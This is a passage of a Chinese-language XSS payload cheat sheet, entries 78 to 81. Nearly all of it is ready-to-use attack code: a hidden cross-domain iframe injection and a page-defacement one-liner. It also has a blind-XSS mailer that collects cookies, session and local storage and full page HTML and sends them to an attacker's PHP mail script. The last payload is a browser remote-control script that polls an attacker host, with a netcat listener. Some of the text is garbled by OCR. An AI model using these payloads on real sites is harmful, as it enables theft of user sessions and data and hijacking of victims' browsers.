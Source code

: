 ##### 78.Invisible Foreign XSS Embedding (不可见的外部XSS嵌入)

```
以下payload用于将XSS从另一个域（或子域）加载到当前域中。受限于目标域的X-Frame-Options（XFO）头文件。 下面是brutelogic.com.br上下文中的弹窗示例,不分域名。

<iframe src="//brutelogic.com.br/xss.php?a=<svg οnlοad=alert(document.domain)>"
style=display:none></iframe>
```

##### 79.Simple Virtual Defacement (简单的虚假网页信息)

```
以下payload用于更改网站HTML代码的显示方式。在下面的例子中显示"Not Found"消息。

documentElement.innerHTML='<h1>Not Found</h1>'
```

##### 80.Blind XSS Mailer (xss邮件盲打)

```
以下payload将其于远程XSS盲打脚本，另存为PHP文件并更改$to和$headers变量  因此。需要一台Postfix这样的工作邮件服务器。

<?php header("Content-type: application/javascript"); ?>
var mailer = '<?= "//" . $_SERVER["SERVER_NAME"] . $_SERVER["REQUEST_URI"] ?>';
var msg = 'USER AGENT\n' + navigator.userAgent + '\n\nTARGET URL\n' + document.URL;
msg += '\n\nREFERRER URL\n' + document.referrer + '\n\nREADABLE COOKIES\n' +
document.cookie;
msg += '\n\nSESSION STORAGE\n' + JSON.stringify(sessionStorage) + '\n\nLOCAL
STORAGE\n' + JSON.stringify(localStorage);
msg += '\n\nFULL DOCUMENT\n' + document.documentElement.innerHTML;
var r = new XMLHttpRequest();
r.open('POST', mailer, true);
r.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
r.send('origin=' + document.location.origin + '&msg=' + encodeURIComponent(msg));
<?php
header("Access-Control-Allow-Origin: " . $_POST["origin"]);
$origin = $_POST["origin"];
$to = "myName@myDomain";
$subject = "XSS Blind Report for " . $origin;
$ip = "Requester: " . $_SERVER["REMOTE_ADDR"] . "\nForwarded For: ".
$_SERVER["HTTP_X_FORWARDED_FOR"];
$msg = $subject . "\n\nIP ADDRESS\n" . $ip . "\n\n" . $_POST["msg"];
$headers = "From: report@myDomain" . "\r\n";
if ($origin && $msg) mail($to, $subject, $msg, $headers);
?>
```

##### 81.Browser Remote Control (浏览器远程控制)

```
以下payload用于监控浏览器并以交互方式,向其发送javascript命令。注入下面的javascript代码而不是alert(1)，会打开一个类似Unix的终端，使用下面的shell脚本（监听器）。将主机的主机名、IP地址或域名提供给从攻击者机器,然后接收命令去执行。

=> Javascript (payload):
setInterval(function(){with(document)body.
appendChild(createElement('script')).src='//HOST:5855'},100)

=> Listener (terminal command):
$ while :; do printf "j$ "; read c; echo $c | nc -lp 5855 >/dev/null; done
```
